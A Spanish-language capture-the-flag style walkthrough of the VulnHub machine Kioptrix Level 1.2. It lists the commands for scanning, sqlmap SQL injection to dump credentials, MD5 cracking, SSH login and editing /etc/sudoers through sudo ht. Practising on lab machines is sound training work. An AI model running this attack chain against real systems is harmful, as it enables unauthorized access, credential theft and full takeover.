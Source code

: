 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177891939-07f2e077-4b7a-4f04-9e6f-80c2e43d1a13.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/177892039-39832af6-5bbd-4ba1-9581-85abf27bffa0.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/177892640-8cd728ec-bbdd-4f6c-a2ec-2d1a55a17fa4.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

Modificar registro de DNS:
```
sudo nano /etc/hosts
192.168.1.4     kioptrix3.com
```
![5](https://user-images.githubusercontent.com/75953873/177894609-f8736c6f-88f5-4589-8537-b830f3aea646.png)

URL: `kioptrix3.com`

![4](https://user-images.githubusercontent.com/75953873/177894662-86f2e2d9-11d0-4e68-9d8b-eea8d94020b3.png)
 
- *Paso 4:* Enumerar directorios con Dirb. 
```
dirb http://kioptrix3.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![8](https://user-images.githubusercontent.com/75953873/177896088-d5bd5588-f32e-4391-ba4c-b3eb77cd2cfa.png)

```
dirb http://kioptrix3.com/gallery -X .php
```
![9](https://user-images.githubusercontent.com/75953873/177896489-33c3d635-4b79-4885-959f-ee23c9f644ee.png)

URL: `http://kioptrix3.com/gallery/gallery.php?id=1'`

![10](https://user-images.githubusercontent.com/75953873/177896633-3865f18f-a058-4598-a58b-a8172b935124.png)

- *Paso 4:* Inyección SQL con Sqlmap.
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```
![11](https://user-images.githubusercontent.com/75953873/177897124-cea5badf-f09c-4cfa-beec-997462e2655c.png)

Enumerar base de datos `gallery`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery --dump --batch
```
![12](https://user-images.githubusercontent.com/75953873/177897559-e09a4acd-cad1-4bed-8435-5ba220183ab2.png)

Imprimir tablas `dev_accounts`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery -T dev_accounts --dump --batch
```
![13](https://user-images.githubusercontent.com/75953873/177898181-fd42d4ba-e68a-4e0e-9257-b82883f0c1e8.png)

- *Paso 5:* Identificar hash y crackearlo.
```
hash-identifier
```
![15](https://user-images.githubusercontent.com/75953873/177899147-49dace0d-0eac-4835-8f1a-0e86660302c9.png)

Tipo de hash: **MD5**

Crackearlo con hashCRACK:

Herramienta: https://github.com/R3LI4NT/hashCrack
```
python3 hashcrack.py --md5 5badcaf789d3d1d09794d8f021f40f0e -w /usr/share/wordlists/rockyou.txt
```
![14](https://user-images.githubusercontent.com/75953873/177899361-55ca89ae-2c96-4ac8-a1df-2a2680b3f125.png)

Usuario: `loneferret`

Contraseña: `starwars`

- *Paso 6:* Conectarse remotamente al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.1.4
```
![16](https://user-images.githubusercontent.com/75953873/177899948-125d5fed-1507-473f-a550-3ad1d74ea53d.png)

![17](https://user-images.githubusercontent.com/75953873/177900337-dc2fd45d-5877-4a61-8634-a6add18fa366.png)

Sudo **ht** permite editar cualquier archivo del sistema. Por lo tanto, hay que exportar TERM para editar los `sudoers`.
```
export TERM=xterm-color
sudo ht /etc/sudoers
```
![18](https://user-images.githubusercontent.com/75953873/177900743-71e4b54d-ce74-45c4-9434-f6670d824a61.png)

**F3** para editar los sudoers.

![19](https://user-images.githubusercontent.com/75953873/177901172-c5ddbe31-a194-4f08-b476-bafbc8379bee.png)
